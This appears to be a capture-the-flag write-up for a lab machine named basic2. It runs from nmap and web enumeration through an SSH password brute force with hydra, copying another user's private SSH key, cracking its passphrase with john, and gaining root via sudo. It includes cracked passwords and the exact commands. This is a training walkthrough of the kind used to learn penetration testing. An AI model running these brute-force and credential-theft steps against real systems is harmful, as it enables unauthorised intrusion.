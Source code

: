 # Recon

## NMAP

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy

22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)                                                                                                                       
| ssh-hostkey:                                                                                                                                                                                                
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)                                                                                                                                                
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)                                                                                                                                               
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)                                                                                                                                             
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))                                                                                                                                                     
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                                                                                                                                  
|_http-title: Site doesn't have a title (text/html).                                                                                                                                                          
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-title: Apache Tomcat/9.0.7
|_http-favicon: Apache Tomcat

Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m33s, median: 0s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2022-10-10T18:03:20-04:00
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-10-10T22:03:21
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

```

## Gobuster
### http://10.10.207.108/

/development          (Status: 301) [Size: 320] [--> http://10.10.207.108/development/]



## Nikto
### http://10.10.207.108/




# Web

- Comment in the html source code:  ```Check our dev note section if you need to know what to work on. ```
- We have two files under /development, dev.txt and j.txt
- Dev.txt:
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
- j.txt:
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
- We have a struct version 2.5.12
- We have a SMB
- We have an Apache running
- J has a really easy password

- Lets run enum4linux since this has a samba service running.
- WE found two users: 
```
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```
- Lets take the hint from the note and brute force jan password to the ssh service:

```
hydra -l jan -P ~/tools/seclists/Passwords/Common-Credentials/best1050.txt ssh://10.10.207.108 -t 4

[22][ssh] host: 10.10.207.108   login: jan   password: armando
```

- WE got a shell as Jan. Lets use linpeas to enumerate the machine
- Relevant information:
```
rwsr-xr-x 1 root root 2.4M Nov 24  2016 /usr/bin/vim.basic (Unknown SUID binary!)
/home/kay/.viminfo
/home/kay/.ssh/id_rsa


uid=1000(kay) gid=1000(kay) groups=1000(kay),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
uid=1001(jan) gid=1001(jan) groups=1001(jan)

dirtycow - high probable
```
- Lets use the private key that is in /home/kay/.ssh/ to login as kay
- We open a python server and request the id_rsa to our computer
- Since we dont have the password we will try to crack it with john
- ```ssh2john id_rsa > id_rsa.hash ```
- 
```
john --wordlist=~/tools/seclists/Passwords/Leaked-Databases/rockyou.txt id_rsa.hash 
beeswax          (id_rsa) 
```
- The pass.bak in fact is the password for the kay user inside the system.
- ```heresareallystrongpasswordthatfollowsthepasswordpolicy$$```
- Doing ```sudo -l``` we get that we can run all commands as root ```(ALL : ALL) ALL```
- ```sudo su``` and we got root
